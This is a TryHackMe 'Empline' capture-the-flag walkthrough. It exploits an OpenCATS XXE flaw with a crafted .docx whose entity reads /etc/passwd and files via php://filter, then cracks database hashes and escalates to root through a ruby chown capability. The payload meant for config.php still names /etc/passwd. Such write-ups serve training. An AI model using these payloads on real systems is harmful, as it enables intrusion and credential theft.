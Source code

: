 ```yaml
---
title: Empline TryHackMe Writeup
tags: [writeup,tryhackme,capabilities,xxe,opencats,linux,ruby]
style: border
color: success
description: ""
---
```


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/2.png)

## Enumeration
We access website and review all zones of site.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/3.png)

We list a subdomain that appears to lead to an employee area.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/4.png)

We found deployed an Opencats with version 0.9.4.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/26.png)

### Deficient control panel to authorization control
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/11.png)

Unzip the file and edit the "**document.xml**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/13.png)

We see that the proof of concept works: .
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/17.png)

### Connect to the database
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Empline/24.png)




